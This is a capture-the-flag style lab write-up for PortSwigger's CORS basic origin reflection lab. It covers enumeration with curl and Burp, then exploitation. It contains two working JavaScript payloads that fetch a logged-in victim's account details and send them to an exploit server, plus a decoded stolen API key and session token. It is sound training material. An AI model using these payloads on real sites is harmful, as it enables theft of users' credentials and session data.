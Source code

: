 ### CORS Vulnerability With Basic Origin Reflection Lab
#### Entities
Asset: https://0a6400570375230c80940876001500ca.web-security-academy.net

#### Enumeration
Access the lab, add the domain - without the protocol scheme - to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page and all embedded links via a script using the given credentials `wiener:peter`.
```shell
# inspect `/` route and embedded links via Burp's Proxy
URL="https://0a6400570375230c80940876001500ca.web-security-academy.net"
for path in $(curl -s $URL | grep -o 'href="[^"]*"' | cut -d'"' -f2); do
  echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null $URL$path)"
done
```
View result on Burp Proxy's HTTP history, and with FoxyProxy Browser Extension configured for Burp turned on - not the Burp Proxy intercept - browse through the URLs that sticks out, hitting all possible resource you can find. The `/my-account` route which redirects to the `/login` when requested with valid credentials makes a POST request with an `Origin` header; `csrf`, `username` and `password` parameters and a GET request for `/accountDetails` after the login which shows sensitive credentials in the response with the `Access-Control-Allow-Credentials: true` set.  

![Enumeration](01-enumerate-index-route.png)  

#### Exploration
Armed with this insight, send the GET `/accountDetails` to Burp Repeater. Verify a CORS flaw at `/accountDetails` by removing the `Referer` header and adding an `Origin` header switching the value to an arbitrary domain and observe the response reflected the `Access-Control-Allow-Origin` arbitrary domain value.   

![Exploration](02-explore-abitrary-domain-as-origin.png) 

#### Exploitation
Now exploit yourself while logged in with the below script.
```shell
<html lang="en">
<body>
  <script>
    function exploitCORS(appURL, exploitServer) {
      fetch(appURL, { credentials: 'include' })
      .then(response => response.text())
      .then(data => {
        fetch(exploitServer + data)
      })
      .catch(error => alert('Error fetching page: ' + error));
    }
    exploitCORS(
      'https://0a6400570375230c80940876001500ca.web-security-academy.net/accountDetails',
      'http://localhost:8000/?log='
    );
  </script>
</body>
</html>
```
Start a local server with `python3 -m http.server -b 127.0.0.1 8000 -d .` from within the directory where the above script is saved as index.html. Then run `google-chrome http://127.0.0.1:8000` and see your own credential displayed. You can also use to above script to exploit the administrator after changing the exploit server to portswigger's.

The condition for exploiting this flaw is that the target victim must be logged into their account, such that when they click the payload delivered to them, it gets the content of `/accountDetails` and logs that request to attacker's server. It is important to note that the PortSwigger lab simulates delivering the payload to the target victim and the response received at `/log` path of the exploit server. However in engagement the payload is usually set as a link in seemingly harmless articles or social media post or even emailed to them.  
```shell
<html lang="en">
<body>
  <script>
    var appServer = 'https://0a6400570375230c80940876001500ca.web-security-academy.net'
    var exploitServer = 'https://exploit-0a91002e0313235d80ad0765011300a1.exploit-server.net'
    var xhr = new XMLHttpRequest();
    xhr.open('GET', appServer + '/accountDetails', true);
    xhr.withCredentials = true;
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE && xhr.status == 200) {
        fetch(exploitServer + '/log=' + xhr.responseText)
      }
    };
    xhr.send();
  </script>
</body>
</html>
```
Paste the above on the exploit server and deliver exploit to victim.  

![Exploitation](03-exploit-abitrary-domain-as-origin.png) 

#### Exfiltration
Access the exploit server log and copy the value of `/log=` path. Now run it through a url decoder to extract the apikey.  

![Exfiltration](04-exfiltrate-abitrary-domain-as-origin-spoils.png) 
```shell
urlencode -d '%7B%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22a0IydfTG1C1PHw7fgY4eoY6FcVVKvRGm%22,%20%20%22sessions%22:%20[%20%20%20%20%222fbOjlD7InD7crx0XK3djXJhrjlfZiyA%22%20%20]%7D' | jq . | tee cors-vulnerability-with-basic-origin-reflection-spoil.json
```
#### Resources
- https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack
- https://github.com/knoxknot/portswigger/01-cors-vulnerability-with-basic-origin-reflection